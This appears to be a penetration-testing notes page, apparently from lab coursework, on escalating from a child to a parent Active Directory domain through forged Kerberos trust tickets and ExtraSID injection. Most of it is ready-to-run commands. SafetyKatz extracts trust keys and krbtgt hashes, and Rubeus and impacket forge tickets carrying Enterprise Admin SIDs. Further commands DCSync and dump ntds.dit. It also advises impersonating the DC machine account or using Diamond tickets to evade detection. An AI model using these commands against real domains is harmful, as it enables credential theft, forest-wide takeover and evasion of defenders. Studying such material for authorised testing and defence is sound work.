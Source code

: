 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cross-Domain

In Active Directory environments, trust relationships govern access across domain or forest boundaries. Within a single forest, **domains are linked by default through implicit two-way trust**.

A key attribute in these trust-based escalations is `sIDHistory`, which stores the old Security Identifier (SID) when a user account is migrated between domains. While its intended use is to preserve access to legacy resources, it creates an opportunity for privilege escalation under specific conditions, particularly through **Trust Tickets** and **ExtraSID injection**.

## Trust Tickets

**Trust Tickets** exploit the Kerberos trust mechanism between domains. When a user from a child domain requests access to services in a parent domain, a **cross-realm TGT** is issued by the child’s DC. This TGT is **encrypted with a shared trust key** and presented to the parent’s DC, which validates it using the same key. By default, this key—functionally similar to a machine account password—is the NTLM hash of the trust object and rotates every 30 days.

<figure><img src="../../../.gitbook/assets/trust_keys.png" alt=""><figcaption></figcaption></figure>

If this NTLM hash is obtained (typically RC4-based), it becomes possible to **forge a cross-realm TGT**. The forged ticket can then include privileged SIDs such as **Enterprise Admins** (`-519`) in the `sIDHistory` field, effectively tricking the parent DC into recognizing the ticket as one issued to a highly privileged user. This enables unauthorized access to services and systems in the parent domain.

{% tabs %}
{% tab title="1. Trust Key & Parent SID" %}
Extract the trust key as a DA:

{% code overflow="wrap" %}
```powershell
.\SafetyKatz.exe "lsadump::trust /patch" "exit"
.\SafetyKatz.exe "lsadump::lsa /patch" "exit"
.\SafetyKatz.exe "lsadump::dcsync /user:dcorp\mcorp$" "exit"
```
{% endcode %}

Get the parent domain SID:

```powershell
Get-DomainSID -Domain moneycorp.local
```
{% endtab %}

{% tab title="2.  Cross-Realm TGT" %}
Forge the inter-realm TGT:

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe silver /service:krbtgt/<child-domain-FQDN> /rc4:<trust-key> /sid:<child-domain-SID> /sids:<parent-domain-SID>-519 /ldap /user:Administrator /nowrap
```
{% endcode %}
{% endtab %}

{% tab title="3. TGS" %}
Request and inject the TGS:

{% code overflow="wrap" %}
```powershell
# Request and inject the TGS
.\Rubeus.exe asktgs /service:http/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt /ticket:doI...hbA==
```
{% endcode %}

Access the parent's domain resource:

```powershell
# Access the DC of the parent DC
winrs -r:mcorp-dc.moneycorp.local cmd
```
{% endtab %}
{% endtabs %}

From Linux hosts:

{% tabs %}
{% tab title="1. TGT" %}
Execute the Golden Ticket attack including the target SIDs using `ticketer`:

{% code overflow="wrap" %}
```bash
# Get TGT for the target (trust key RC4 hash)
impacket-ticketer -nthash 12b792603f994d46906474202b20b5d4 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```
{% endcode %}
{% endtab %}

{% tab title="2. ST" %}
Leverage the forged TGT to request a ST and perform a DCSync attack:

{% code overflow="wrap" %}
```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

## ExtraSID Injection

An attacker with control over a child domain can abuse the `krbtgt` secret to forge Kerberos tickets that impersonate privileged users in a trusted parent domain. This approach builds upon the logic of cross-domain trust abuse but targets a different step in the Kerberos authentication flow, offering a **more straightforward execution path** **with a bigger impact** as the attack can access any resource on the parent domain's DC.

This method uses the **RC4 hash of the child domain's** `krbtgt` **account** to forge a standard **Golden Ticket**. The critical twist is in **preloading the ticket with high-privilege SIDs from the parent domain**—typically by setting the `sIDHistory` to include the SID of the Enterprise Admins group (`-519`). When this forged TGT is presented to the child DC to request access to a parent domain service, **the resulting inter-realm TGT is generated with the maliciously inserted `sIDHistory` intact**. The parent domain then validates and honors the ticket, effectively granting EA privileges to an attacker-controlled principal.

<figure><img src="../../../.gitbook/assets/krbtgt_hash (1).png" alt=""><figcaption></figcaption></figure>

This approach is particularly advantageous because it targets the step **before** the inter-realm TGT is created. It avoids the need to compromise the trust account itself, relying only on the child domain’s `krbtgt` secret—often easier to obtain. The result is elevated access to the parent domain, including the ability to authenticate to its DCs, which normally disallows logons from users in child domains.

{% hint style="warning" %}
**OPSEC**: The Diamond ticket is the most OPSEC-friendly option.
{% endhint %}

{% tabs %}
{% tab title="GT as Administrator" %}
Execute the Golden Ticket attack including the target SIDs using Rubeus or SafetyKatz:

{% code overflow="wrap" %}
```powershell
# Execute the GT attack including the target SIDs using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Execute the GT attack including the target SIDs using Rubeus
.\Rubeus.exe evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /netbios:dcorp /ptt
```
{% endcode %}

Access the parent domain's DC:

```powershell
# Access the parent domain's DC
winrs -r:mcorp-dc cmd
```
{% endtab %}

{% tab title="GT as DC$" %}
However, when an Administrator from the child domain logs in interactively to the forest root DC, it generates alerts (event ID 4672), alerting on **high-privilege logons from unexpected accounts**. Instead of impersonating an administrator directly, the forged ticket can represent the **machine account of the child domain’s DC**, combined with SIDs for DCs (`-516`) and Enterprise DCs (`S-1-5-9`). This simulates **legitimate replication behavior between domains and bypasses interactive logon restrictions**. Because it mimics legitimate DC-to-DC replication, this variant often evades detections—even those from advanced defenders like MDI.

{% code overflow="wrap" %}
```powershell
# The GT attack using the machine account using SafetyKatz
.\SafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# The GT attack using the machine account using Rubeus
.\Rubeus.exe golden /aes256:<krbtgt-aes256key> /user:dcorp-dc$ /id:1000 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /dc:dcorp-dc.dollarcorp.moneycorp.local /ptt

# Peform a DCSync to extract the forest root's krbtgt credentials
.\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}
{% endtab %}

{% tab title="Diamond Ticket" %}
For improved OPSEC, [Diamond Tickets](../persistence/diamond-ticket.md) can be used in place of traditional Golden Tickets. Diamond Tickets **resemble legitimate Kerberos requests and include a corresponding TGT request**, making them less suspicious.

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe diamond /krbkey:<krbtgt-aes256key> /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /tickeruserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,s-1-5-9 /createnetonly:c:\windows\system32\cmd.exe /show /ptt
```
{% endcode %}
{% endtab %}
{% endtabs %}

From Linux hosts:

{% tabs %}
{% tab title="1. TGT" %}
Execute the Golden Ticket attack including the target SIDs using `ticketer`:

{% code overflow="wrap" %}
```bash
# Get TGT for the target (krbtgt hash of the child domain)
impacket-ticketer -nthash 0540fe51ddd618f42a66ef059ac36441 -domain-sid S-1-5-21-3056178012-3972705859-491075245 -domain internal.zsm.local -extra-sid S-1-5-21-2734290894-461713716-141835440-519 -spn krbtgt/zsm.local x7331

# Cache the ticket
export KRB5CCNAME=./x7331.ccache
```
{% endcode %}
{% endtab %}

{% tab title="2. ST" %}
Leverage the forged TGT to request a ST and perform a DCSync attack:

{% code overflow="wrap" %}
```bash
# Get ST using the forged TGT
$ impacket-getST -k -no-pass -debug -spn CIFS/ZPH-SVRDC01.zsm.local zsm.local/tgt@zsm.local -dc-ip 192.168.210.10

# Export ticket to session
$ export KRB5CCNAME=tgt@zsm.local

# Dump ntds.dit using the ST
impacket-secretsdump -k -no-pass -dc-ip 192.168.210.10 tgt@ZPH-SVRDC01.zsm.local -target-ip 192.168.210.10
```
{% endcode %}
{% endtab %}
{% endtabs %}
